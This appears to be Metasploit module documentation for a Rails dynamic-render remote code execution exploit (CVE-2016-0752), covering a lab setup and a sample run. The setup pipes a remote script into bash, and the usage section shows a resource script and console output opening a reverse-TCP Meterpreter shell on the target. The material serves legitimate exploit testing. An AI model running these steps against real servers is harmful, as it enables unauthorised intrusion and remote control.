 ## Intro

Rails is a web application development framework written in the Ruby language. It is designed to make programming web applications easier by making assumptions about what every developer needs to get started. It allows you to write less code while accomplishing more than many other languages and frameworks.

http://rubyonrails.org/

> This module exploits the rendering vulnerability via a temporary file upload to pop a shell (CVE-2016-0752).

## Setup

**Download and setup the sample vuln application:**

- [ ] `sudo apt-get install -y curl git`
- [ ] `curl -L https://get.rvm.io | bash -s stable --autolibs=3 --ruby=2.3.1`
- [ ] `source ~/.rvm/scripts/rvm`
- [ ] `sudo apt-get install rubygems ruby-dev nodejs zlib1g-dev -y`
- [ ] `gem install rails -v 4.0.8`
- [ ] `git clone https://github.com/forced-request/rails-rce-cve-2016-0752 pwn`
- [ ] `cd pwn`
- [ ] `bundle install`
- [ ] Edit the config/routes.rb file and add `post "users/:id", to: 'user#show'`

Basically, you just need a POST endpoint for the temporary file upload trick. Now you can start the rails server and test the module.

- [ ] `rails s -b 0.0.0.0` or `rails s -b 0.0.0.0 -e production`

## Usage

### Typical Usage

Just set ```RHOST``` and fire off the module! It's pretty much painless.
```set VERBOSE true``` if you want to see details.

```
saturn:metasploit-framework mr_me$ cat scripts/rails.rc 
use exploit/multi/http/rails_dynamic_render_code_exec
set RHOST 172.16.175.251
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 172.16.175.1
check
exploit

saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/rails.rc 
[*] Processing scripts/rails.rc for ERB directives.
resource (scripts/rails.rc)> use exploit/multi/http/rails_dynamic_render_code_exec
resource (scripts/rails.rc)> set RHOST 172.16.175.251
RHOST => 172.16.175.251
resource (scripts/rails.rc)> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
resource (scripts/rails.rc)> set LHOST 172.16.175.1
LHOST => 172.16.175.1
resource (scripts/rails.rc)> check
[+] 172.16.175.251:3000 The target is vulnerable.
resource (scripts/rails.rc)> exploit
[*] Exploit running as background job.
[*] Started reverse TCP handler on 172.16.175.1:4444 

[*] Sending initial request to detect exploitability
msf exploit(rails_dynamic_render_code_exec) > [*] 172.16.175.251:3000 - Starting up our web service on http://172.16.175.1:1337/iUDaRVpz ...
[*] Using URL: http://0.0.0.0:1337/iUDaRVpz
[*] Local IP: http://192.168.100.13:1337/iUDaRVpz
[*] uploading image...
[+] injected payload
[*] 172.16.175.251:3000 - Sending the payload to the server...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 172.16.175.251
[*] Meterpreter session 1 opened (172.16.175.1:4444 -> 172.16.175.251:41246) at 2016-09-29 17:52:00 -0500
[+] Deleted /tmp/NhhGKCCIgwF

msf exploit(rails_dynamic_render_code_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 50809 created.
Channel 1 created.
$ id
uid=1000(student) gid=1000(student) groups=1000(student),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
$
```
